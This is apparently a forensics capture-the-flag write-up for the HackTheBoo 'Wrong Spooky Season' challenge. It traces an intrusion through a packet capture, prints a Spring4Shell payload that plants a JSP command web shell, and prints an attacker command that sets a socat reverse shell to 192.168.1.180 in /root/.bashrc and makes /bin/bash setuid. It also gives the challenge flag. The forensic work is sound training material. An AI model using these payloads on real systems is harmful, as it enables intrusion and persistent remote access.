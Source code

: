 # Wrong Spooky Season



> “I told them it was too soon and in the wrong season to deploy such a website, but they assured me that theming it properly would be enough to stop the ghosts from haunting us. I was wrong.” Now there is an internal breach in the `Spooky Network` and you need to find out what happened. Analyze the the network traffic and find how the scary ghosts got in and what they did.

> Difficulty: Easy

{% file src="../../.gitbook/assets/forensics_wrong_spooky_season.zip" %}

Let's check file

```shell
┌──(kali㉿kali)-[~/Desktop/HackTheBoo/Wrong-Spooky-Season]
└─$ file forensics_wrong_spooky_season.zip 
forensics_wrong_spooky_season.zip: Zip archive data, at least v2.0 to extract, compression method=deflate
                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~/Desktop/HackTheBoo/Wrong-Spooky-Season]
└─$ unzip forensics_wrong_spooky_season.zip 
Archive:  forensics_wrong_spooky_season.zip
  inflating: capture.pcap            
                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~/Desktop/HackTheBoo/Wrong-Spooky-Season]
└─$ file capture.pcap                     
capture.pcap: pcap capture file, microsecond ts (little-endian) - version 2.4 (Ethernet, capture length 262144)
```

We have <mark style="color:yellow;">pcap</mark> file!

Use <mark style="color:red;">Wireshark</mark> open it.

<figure><img src="../../.gitbook/assets/image (1) (2).png" alt=""><figcaption></figcaption></figure>

We have a lot of TCP and HTTP protocol. Let's check it

<figure><img src="../../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

Filter <mark style="color:blue;">HTTP</mark>, We can see <mark style="color:orange;">**ip.src = 192.168.1.180**</mark> <mark style="color:orange;"></mark><mark style="color:orange;"></mark> (Attacker) sent a POST request&#x20;

<figure><img src="../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

Follow TCP stream we can see the URLencoded:

{% code overflow="wrap" %}
```java
class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bprefix%7Di%20java.io.InputStream%20in%20%3D%20%25%7Bc%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=e4d1c32a56ca15b3&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=
```
{% endcode %}

Use CyberChef decode this

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```java
class.module.classLoader.resources.context.parent.pipeline.first.pattern=%{prefix}i java.io.InputStream in = %{c}i.getRuntime().exec(request.getParameter("cmd")).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))!=-1){ out.println(new String(b)); } %{suffix}i&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=e4d1c32a56ca15b3&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=
```
{% endcode %}

Check google I know it is a Spring4Shell

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

&#x20;In this packet, Hacker is installing <mark style="color:red;">socat</mark> in the victim system and use reverse shell

<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```basic
echo 'socat TCP:192.168.1.180:1337 EXEC:sh' > /root/.bashrc && echo "==gC9FSI5tGMwA3cfRjd0o2Xz0GNjNjYfR3c1p2Xn5WMyBXNfRjd0o2eCRFS" | rev > /dev/null && chmod +s /bin/bash
```
{% endcode %}

In this we can see base64 encode so suspicious, check it

```python
import base64
a = "==gC9FSI5tGMwA3cfRjd0o2Xz0GNjNjYfR3c1p2Xn5WMyBXNfRjd0o2eCRFS"[::-1]
print(base64.b64decode(a))
```

We got flag:&#x20;

{% hint style="info" %}
HTB{j4v4\_5pr1ng\_just\_b3c4m3\_j4v4\_sp00ky!!}
{% endhint %}
